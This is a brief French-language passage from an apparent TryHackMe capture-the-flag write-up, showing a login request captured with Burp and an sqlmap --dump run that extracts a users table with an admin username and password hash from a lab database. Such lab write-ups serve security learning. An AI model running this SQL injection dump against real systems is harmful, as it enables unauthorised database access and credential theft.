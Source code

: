On arrive un page d'identification.   

![page](./Task1-03.png) 

On récupère une requête avec burp.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:28:55 /2021-11-04/

[20:28:55] [INFO] parsing HTTP request from 'input.req'
[20:28:55] [INFO] testing connection to the target URL
---
[21:45:55] [WARNING] no clear password(s) found                                                                                                                                                                                              
Database: cts_db
Table: users
[1 entry]
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| id | avatar                        | lastname | password                         | username | firstname    | date_added          | last_login | date_updated        |
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| 1  | uploads/1614302940_avatar.jpg | Admin    | 3eba6f73c19818c36ba8fea761a3ce6d | admin    | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2021-02-26 10:23:23 |
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
```

